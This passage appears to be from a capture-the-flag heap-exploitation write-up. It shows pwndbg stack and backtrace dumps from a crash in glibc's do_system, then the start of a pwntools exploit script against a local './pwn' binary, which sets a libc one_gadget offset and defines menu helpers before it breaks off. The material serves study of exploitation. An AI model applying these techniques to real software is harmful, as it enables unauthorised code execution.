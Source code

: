    0x7feb14f262a9 <do_system+1145>    mov    edi, 0x7f
   0x7feb14f262ae <do_system+1150>    call   _exit <_exit>
 
   0x7feb14f262b3                     nop    dword ptr [rax]
   0x7feb14f262b6                     nop    word ptr cs:[rax + rax]
─────────────────────────────────────────[ STACK ]─────────────────────────────────────────
00:0000│ rsp  0x7ffdd3b17018 —▸ 0x7feb14f6595f (realloc+591) ◂— mov    rbp, rax
01:0008│      0x7ffdd3b17020 —▸ 0x7ffdd3b17080 —▸ 0x7ffdd3b170b0 —▸ 0x400ee0 (__libc_csu_init) ◂— push   r15
02:0010│      0x7ffdd3b17028 —▸ 0x4007a0 (_start) ◂— xor    ebp, ebp
03:0018│      0x7ffdd3b17030 —▸ 0x7ffdd3b17190 ◂— 0x1
04:0020│      0x7ffdd3b17038 ◂— 0x0
... ↓
07:0038│      0x7ffdd3b17050 —▸ 0x7ffdd3b17080 —▸ 0x7ffdd3b170b0 —▸ 0x400ee0 (__libc_csu_init) ◂— push   r15
───────────────────────────────────────[ BACKTRACE ]───────────────────────────────────────
 ► f 0     7feb14f2627a do_system+1098
   f 1                0
───────────────────────────────────────────────────────────────────────────────────────────
pwndbg> stack 20
00:0000│ rsp  0x7ffdd3b17018 —▸ 0x7feb14f6595f (realloc+591) ◂— mov    rbp, rax
01:0008│      0x7ffdd3b17020 —▸ 0x7ffdd3b17080 —▸ 0x7ffdd3b170b0 —▸ 0x400ee0 (__libc_csu_init) ◂— push   r15
02:0010│      0x7ffdd3b17028 —▸ 0x4007a0 (_start) ◂— xor    ebp, ebp
03:0018│      0x7ffdd3b17030 —▸ 0x7ffdd3b17190 ◂— 0x1
04:0020│      0x7ffdd3b17038 ◂— 0x0
... ↓
07:0038│      0x7ffdd3b17050 —▸ 0x7ffdd3b17080 —▸ 0x7ffdd3b170b0 —▸ 0x400ee0 (__libc_csu_init) ◂— push   r15
08:0040│      0x7ffdd3b17058 —▸ 0x400a74 (add_item+189) ◂— mov    rdx, rax
09:0048│      0x7ffdd3b17060 ◂— 0x8d3b17190
0a:0050│      0x7ffdd3b17068 ◂— 0xff
0b:0058│      0x7ffdd3b17070 ◂— 0xa353532 /* '255\n' */
0c:0060│      0x7ffdd3b17078 ◂— 0x672822d853e49a00
0d:0068│ rbp  0x7ffdd3b17080 —▸ 0x7ffdd3b170b0 —▸ 0x400ee0 (__libc_csu_init) ◂— push   r15
0e:0070│      0x7ffdd3b17088 —▸ 0x400e95 (main+222) ◂— jmp    0x400ed3
0f:0078│      0x7ffdd3b17090 ◂— 0x200400ee0
10:0080│      0x7ffdd3b17098 —▸ 0x15f2010 —▸ 0x400896 (hello_message) ◂— push   rbp
11:0088│      0x7ffdd3b170a0 —▸ 0x7ffdd3b10a32 ◂— 0x0
12:0090│      0x7ffdd3b170a8 ◂— 0x672822d853e49a00
13:0098│      0x7ffdd3b170b0 —▸ 0x400ee0 (__libc_csu_init) ◂— push   r15
```
put all together
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

from pwn import *
from time import sleep
context.log_level = 'critical'
context.binary = './pwn'
elf = context.binary
libc = elf.libc
libc.sym['one_gadget'] = 0x4527a
p = process('./pwn')

def show():
    p.sendlineafter('choice:', '1')

def add(length, name):
    p.sendlineafter('choice:', '2')
    p.sendlineafter(':', str(length))
    p.sendafter(':', name)
    sleep(0.01)
```